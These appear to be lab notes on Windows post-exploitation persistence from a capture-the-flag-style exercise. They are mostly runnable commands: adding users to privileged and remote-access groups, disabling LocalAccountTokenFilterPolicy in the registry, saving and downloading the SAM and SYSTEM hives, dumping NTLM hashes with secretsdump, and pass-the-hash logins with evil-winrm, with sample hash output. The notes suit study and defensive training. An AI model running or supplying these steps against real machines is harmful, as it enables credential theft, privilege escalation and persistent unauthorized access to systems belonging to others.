**We will assume that you have dumped the password hashes and successfully cracked the passwords for the unprivileged accounts in use.**

---
#### 1. Assign local users to Groups
**Direct way to make an unprivileged user gain administrative privileges is to make it part of the `Administrators group`**
```cmd
net localgroup administrators thmuser0 /add
```

If that looks suspicious, use the `Backup Operators` group. Users in this group won't have administrative privileges, but will be ***allowed to read/write any file or registry key on the system, ignoring any configured DACL***. This will allows us to copy the content of the `SAM` and `SYSTEM` registry hives.
```cmd
net localgroup "Backup Operators" thmuser1 /add
```

---

2. **Since this is an unprivileged account, it can't RDP or WinRM back to the machine. So, add the user to these groups**
```cmd
# RDP
net localgroup "Remote Desktop Users" thmuser1 /add

# WinRM
net localgroup "Remote Management Users" thmuser1 /add
```

---
#### Evil-WinRM
1. **Attacker machine**
```bash
evil-winrm -i <TARGET-IP> -u <USERNAME> -p <PASSWORD>
```
- Even if you are connected from your ***attacker machine***, and even if you are on the ***Backup Operators or Administrators group***, you would ***not be able to access all files remotely because `UAC limits your privileges`***. This happens due to `LocalAccountTokenFilterPolicy`, which ***strips admin rights from local accounts during remote (WinRM) logins***. 
- Check the groups:
	```
	whoami /groups
	```
	- `Group used for deny only:` means the ***privileges are stripped*** away

2. **Regain `Administrator Privileges` from your user by disabling `LocalAccountTokenFilterPolicy`**
```cmd
reg add HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System /t REG_DWORD /v LocalAccountTokenFilterPolicy /d 1
```

3. Re-establish the `WinRM` connection again and check that the `Backup Operators` group is enabled.

4. **Backup `SAM` and `SYSTEM` files**
```powershell
reg save hklm\system system.bak
reg save hklm\sam sam.bak

download system.bak
download sam.bak
```

5. **With those files, we can dump the password hashes for all users using `secretsdump.py`**
```python
python3.9 /opt/impacket/examples/secretsdump.py -sam sam.bak -system system.bak LOCAL
```

#### Perform Pass-the-Hash
**Attacker machine**
```bash
evil-winrm -i <target-ip> -u <username> -H <NTLM-hash>
```

#### Example
**Dump the hash**
```bash
python3 /opt/impacket/examples/secretsdump.py -sam sam.bak -system system.bak LOCAL
Impacket v0.10.1.dev1+20230316.112532.f0ac44bd - Copyright 2022 Fortra

[*] Target system bootKey: 0x36c8d26ec0df8b23ce63bcefa6e2d821
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
Administrator:500:aad3b435b51404eeaad3b435b51404ee:f3118544a831e728781d780cfdb9c1fa:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
```

**Perform pass-the-hash**
```bash
evil-winrm -i <target-ip> -u Administrator -H f3118544a831e728781d780cfdb9c1fa
```